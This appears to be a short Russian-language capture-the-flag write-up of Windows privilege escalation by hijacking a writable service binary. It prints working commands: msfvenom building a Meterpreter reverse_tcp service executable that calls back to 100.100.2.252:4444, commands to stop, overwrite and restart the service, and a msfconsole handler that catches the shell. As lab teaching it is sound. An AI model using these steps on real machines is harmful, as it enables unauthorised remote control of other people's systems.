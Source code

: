 Подключаемся к машине, устанавливаем SharpUp.exe и видим сервис LegacySoftwareApplication.
Исследуя систему у нас есть доступ к изменению файла C:\LegacySoftwareApplication что позволяет нам заменить файл на файл с reverse shell
создаем файл ```msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=100.100.2.252 LPORT=4444 -f exe-service -o service.exe```
Скачиваем его на машину с помощью iwr (powershell), затем через cmd останавливаем службу ```
sc stop LegacySoftwareApplication``` и изменяем файл```
 copy /Y C:\Users\User\LegacySoftwareApplication "C:\LegacySoftwareApplication.exe"```
 Запускаем слушателя на основной машине ```
 msfconsole -qx "use exploit/multi/handler; set PAYLOAD windows/x64/meterpreter/reverse_tcp; set LHOST 100.100.2.252; set LPORT 4444; run"``` и запускаем службу ```sc start LegacySoftwareApplication``` => получаем шелл и флаг